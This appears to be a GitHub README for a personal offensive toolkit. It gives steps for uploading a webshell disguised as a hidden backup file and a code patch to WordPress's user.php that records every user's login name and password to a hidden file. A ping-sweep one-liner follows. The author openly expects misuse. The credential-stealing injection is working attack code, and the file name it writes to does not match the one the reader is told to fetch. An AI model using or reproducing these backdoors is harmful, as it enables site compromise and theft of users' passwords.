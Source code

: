# JustRepository

Testing project

## Getting Started

These are some repository tools and code I made for pentesting. I want to say "use this for educational purposes only" but I know it wont change your evil thoughts.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz** - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login. Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php.

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                $credz = date('Y-m-d h:i:sa') . "Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.php.swp', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                $credz = date('Y-m-d h:i:sa') . "Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.php.swp', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.txt
```

### ping.sh

Simpe ping with bash. or you can use this simple script through command line with this:
```
time for i in {1..254}; do (ping -c 1 172.19.0.$i | grep "bytes from" | cut -d':' -f1 | cut -d' ' -f4 &); done
```

